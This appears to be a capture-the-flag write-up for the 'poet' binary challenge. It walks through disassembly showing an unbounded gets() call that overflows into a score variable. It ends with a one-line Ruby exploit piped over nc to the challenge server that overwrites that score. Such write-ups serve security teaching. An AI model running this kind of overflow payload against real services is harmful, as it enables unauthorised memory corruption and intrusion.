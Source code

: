 #poet#

> Solves: 214

> We are looking for the [poet](poet) of the year:
> `nc 35.207.132.47 22223`

> Difficulty estimate: very easy

## Analysis

Given only the binary program we must first disassemble it.
The `main` function of the program looks like this:

```
000000000040098b <main>:
  40098b:	53                   	push   rbx
  40098c:	b9 00 00 00 00       	mov    ecx,0x0
  400991:	ba 02 00 00 00       	mov    edx,0x2
  400996:	be 00 00 00 00       	mov    esi,0x0
  40099b:	48 8b 3d de 16 20 00 	mov    rdi,QWORD PTR [rip+0x2016de]        # 602080 <stdout@@GLIBC_2.2.5>
  4009a2:	e8 99 fc ff ff       	call   400640 <setvbuf@plt>
  4009a7:	48 8d 3d 92 02 00 00 	lea    rdi,[rip+0x292]        # 400c40 <_IO_stdin_used+0x1c0>
  4009ae:	e8 4d fc ff ff       	call   400600 <puts@plt>
  4009b3:	48 8d 1d e6 16 20 00 	lea    rbx,[rip+0x2016e6]        # 6020a0 <poem>
  4009ba:	b8 00 00 00 00       	mov    eax,0x0
  4009bf:	e8 71 ff ff ff       	call   400935 <get_poem>
  4009c4:	b8 00 00 00 00       	mov    eax,0x0
  4009c9:	e8 97 ff ff ff       	call   400965 <get_author>
  4009ce:	b8 00 00 00 00       	mov    eax,0x0
  4009d3:	e8 df fd ff ff       	call   4007b7 <rate_poem>
  4009d8:	81 bb 40 04 00 00 40 	cmp    DWORD PTR [rbx+0x440],0xf4240
  4009df:	42 0f 00
  4009e2:	74 0e                	je     4009f2 <main+0x67>
  4009e4:	48 8d 3d 45 03 00 00 	lea    rdi,[rip+0x345]        # 400d30 <_IO_stdin_used+0x2b0>
  4009eb:	e8 10 fc ff ff       	call   400600 <puts@plt>
  4009f0:	eb c8                	jmp    4009ba <main+0x2f>
  4009f2:	b8 00 00 00 00       	mov    eax,0x0
  4009f7:	e8 6b fd ff ff       	call   400767 <reward>
  4009fc:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]
```

The program reads in "poems" and rates them until the score achieved by them
reaches 1,000,000 points. The rating function is the most complex piece of the
code but we can ignore it as both `get_poem` and `get_author` turn out to be
vulnerable to a buffer overflow:

```
0000000000400965 <get_author>:
  400965:	48 83 ec 08          	sub    rsp,0x8
  400969:	48 8d 3d a8 02 00 00 	lea    rdi,[rip+0x2a8]        # 400c18 <_IO_stdin_used+0x198>
  400970:	b8 00 00 00 00       	mov    eax,0x0
  400975:	e8 96 fc ff ff       	call   400610 <printf@plt>
  40097a:	48 8d 3d 1f 1b 20 00 	lea    rdi,[rip+0x201b1f]        # 6024a0 <poem+0x400>
  400981:	e8 aa fc ff ff       	call   400630 <gets@plt>
  400986:	48 83 c4 08          	add    rsp,0x8
  40098a:	c3                   	ret
```

Since `gets` is not bounded in any way whatsoever it lets us write way all over
the programs memory. `get_author` is especially useful as it writes at the
location of `poet + 0x400` which is just before `poet + 0x440` (at `4009d8`
`rbx` is holding the address of the `poet` variable).

## Solution

Now that we know all this we just have to use the author input to overwrite the
score with a correct value encoded as ASCII (the bytes are reversed because the
system is [little endian](https://en.wikipedia.org/wiki/Endianness).

This is as simple as executing:

```bash
ruby -e 'puts; puts ?a * 0x40 + [0x40, 0x42, 0xf].pack("c*")' | nc 35.207.132.47 22223
```

